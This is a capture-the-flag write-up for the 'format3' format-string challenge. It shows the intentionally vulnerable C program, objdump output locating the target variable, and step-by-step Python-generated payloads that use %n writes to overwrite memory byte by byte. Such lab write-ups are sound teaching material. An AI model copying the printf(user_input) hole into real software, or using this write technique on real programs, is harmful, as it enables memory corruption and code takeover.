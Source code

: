 # format3

## Enumeration
The code:
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

Finding the location of target in memory:
```bash
objdump -d format3 | grep .bss

080496e8 l    d  .bss   00000000              .bss
080496ec l     O .bss   00000001              completed.5982
080496f0 l     O .bss   00000004              dtor_idx.5984
080496e8 g       *ABS*  00000000              __bss_start
080496e8 g     O .bss   00000004              stdin@@GLIBC_2.0
080496f4 g     O .bss   00000004              target
```

## Exploitation
Clearly I'm overwriting target. The problem is that 0x01025544 (which is 16930116)is a very big number. I can actually write specific values to each byte by doing the following:
```
0x080496f4	0x44
0x080496f5			0x55
0x080496f6					0x02
0x080496f7							0x01
==============================================
			0x01025544
```
Ok, lets see how many bytes I'm forced to write the target.
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "%x."*12 + "%n."' | ./format3

target is 0000007f :(
```
Getting 0x55 is not possible. But I can wrap the byte around as 0x155. I just need to do some basic arithmetic to determine what the buffer space should be.
```bash
python -c 'print 0x144 - 0x7f + 0x8'

205
```
Using this in the payload:
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "%x."*11 + "%246x." + "%n."' | ./format3

target is 00000155 :(
```
Next, you add padding for each memory location in order to write to them. Then its simple rinse and repeat. Below are all the python arithmetic to calculate the whitespace and below that is the final payload.
```bash
python -c 'print 0x55 - 0x44'
17

python -c 'print 0x02 - 0x55'
-83

python -c 'print 0x102 - 0x55'
173

python -c 'print 0x01 - 0x02'
-1

python -c 'print 0x101 - 0x02'
255
```
Somewhere along the way I miss calculated by a factor of 2 so all the whitespace padding are decremented by 2 in my final payload. 
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "BBBB" + "\xf5\x96\x04\x08" + "CCCC" + "\xf6\x96\x04\x08" + "DDDD" + "\xf7\x96\x04\x08" + "%x."*11 + "%205x." + "%n." + "%15x." + "%n." + "%171x." + "%n." + "%253x." + "%n."' | ./format3
```